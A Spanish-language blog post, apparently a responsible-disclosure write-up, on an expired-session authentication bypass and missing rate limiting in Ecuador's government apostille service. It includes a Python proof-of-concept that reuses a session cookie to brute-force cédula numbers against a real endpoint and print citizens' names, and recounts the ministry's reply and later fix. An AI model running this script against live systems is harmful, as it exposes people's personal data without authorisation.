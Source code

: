 ```yaml
---
pubDatetime: 2025-03-08
title: Atacando el Sistema de Apostillas | Cancilleria.gob.ec
description: Explotando fallas en el sistema de apostillas del Ecuador.
featured: false
author: eserror
tags:
  - cancilleria
  - ecuador
  - vulnerabilidad
---
```


Por alguna razón, hace unos meses recibí un correo de parte del Ministerio de Relaciones Exteriores y Movilidad Humana del Ecuador. Este correo anunciaba la disponibilidad de un [nuevo servicio](https://www.cancilleria.gob.ec/2024/07/15/sistema-de-apostillas-y-legalizaciones-electronicas-del-ecuador/) público, el cual permitía apostillar documentos electrónicos de forma oficial.

El día de hoy, he decido escribir un artículo donde exploto unas vulnerabilidades que he encontrado mientras navegaba por el sitio.

## Authentication Bypass

La aplicación falla al comprobar la validez de una cookie/sesión previamente expirada, esto permite a un atacante reusar la sesión y realizar acciones en nombre del usuario.

Es decir, si un atacante consigue robar una sesión de usuario, él podrá realizar acciones en la cuenta o sesión de usuario como si tuviera las credenciales o autorización para realizar dichas acciones.

En la imagen de abajo, se puede ver cómo la aplicación reacciona al recibir una solicitud sin una cookie en de autenticación en las cabeceras HTTP.

![](@assets/images/16.32.12.png)

En la siguiente imágen, se muestra la respuesta de la aplicación ante una solicitud HTTP que incluye una cookie ya expirada.

![](@assets/images/16.41.29.png)

En la imágen de arriba, se puede ver cómo claramente la aplicación falla al mostrar información sensible de otro usuario, mientras se hace uso de una sesion invalida. A pesar de existir una redirección, que idealmente debe llevar al usuario a volver a iniciar sesión, la aplicación entrega información de cualquier usuario para el cual se conozca su cédula, sin validar el tiempo de vida de la sesion.

## Lack of Rate Limiting

La aplicación no pone un límite a la cantidad de solicitudes que un usuario puede realizar, lo cuál permite a un atacante realizar ataques de fuerza bruta para conseguir información privada de un usuario. La explotación de estás vulnerabilidades implica que un atacante puede realizar la suplantación de identidades de usuario e incluso causar interrupciones en el servicio.

El siguiente código pretende explotar dos vulnerabilidades, una falla en el mecanismo de autenticación, y la falta de implementación de un mecanismos que eviten solicitudes reiteradas.

```python
#!/bin/python3

import requests
import urllib3
import re
import json

urllib3.disable_warnings()
s = requests.Session();


def brute_force():

## Es necesario obtener una cookie expirada o valida.

headers = {

"Cookie": "ASP.NET_SessionId=mldtgtkittjfy31eoz1ekp4s; .ASPXAUTH=2F1537AFB2BCEC54CD9429AF1F963DBEE3282C7EA685EBA4A6E9E62D485A8A98C4AA3D35D4261681186D8E96386A74613753B4FB2A1B20D04B2BD18550AF732AA2D460C7BEF5B9661CF9B5AEB386F802B5E4698B6FD42011F855E4F6018DD7E133FA4A1255FAF637B711D544DFF0698DFC6C5CC2408D21CEB023F453085EF9BF63BA1065C99A8FF992B23C1FE0CA3B5AF28ED6050A425CE12A532E123A13E9AC3D4CC5BD1EF63EAE6ED38E7B77E0E32A5A70E3A71FDE5D75C4A7D4E70E8132CD",
"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36",
"X-Requested-With": "XMLHttpRequest",
"Accept-Encoding": "gzip, deflate, br"
}

# Reemplazar por las cedulas que desees consultar

cedulas = ('CEDULA0','CEDULA1', 'CEDULA2','CEDULA3', 'CEDULA4')

for cedula in cedulas:

data = {"numeroDocumento": cedula}
respuesta = s.get('https://eapostillas.cancilleria.gob.ec/Solicitud/ConsultarDatosRegistroCivil?numeroDocumento', data=data, headers=headers, verify=False, allow_redirects=False)

texto_html = respuesta.text
patron = r'(?s)\s*(\{.*\})'
match = re.search(patron, texto_html)
json_data = match.group(1)
data = json.loads(json_data)

print(data['resultado']['NombresCompletos'])


if __name__ == "__main__":

brute_force()
```

## Respuesta de la Cancilleria

Después de varias semanas de espera, por fin obtuve una respuesta, sin embargo esta fue muy decepcionante.

Debo aclarar que, para entender el problema que expongo, no es necesario conocimientos avanzados en sistemas informáticos. Así que, tengo que admitir que no esperaba una respuesta como esta, mucho menos cuando solemos asumir que dos cabezas piensan mejor que una.

El siguiente informe pretende dar una respuesta sobre las vulnerabilidades reportadas, sin embargo, ustedes pueden juzgar por si mismos.

<iframe src="https://drive.google.com/file/d/1lrfjMORi2kzgDZKoa2Bj39AtHxN9UnUO/preview" width="750" height="650" frameborder="0"></iframe>

## "The Fix"

Después de haber leido la respuesta a mi reporte de vulnerabilidades, haber invertido tiempo y esfuerzo en este asunto, naturalmente uno puede llegar a la conclusion que ha sido un esfuerzo en vano.

Pero no es así, ya que el día de hoy revisando nuevamente el serivicio de apostillas, he descubierto un pequeño cambio. Se ha agregado el parámetro token1, el cual asumo fue implementado para evitar reiteradas consultas al servicio.

Al mismo tiempo, se puede observar que la aplicación valida efectivamente si la sesión de un usuario ha expirado, y de acuerdo a esto, decide si mostrar la información solicitada o no.

![](@assets/images/01.09.48.png)

A pesar de que el proceso de remediación no fue tan fluido como esperaba, y muchos inconvenientes en el camino, aún así vale la pena aportar un granito de arena a la seguridad del país. 🫶
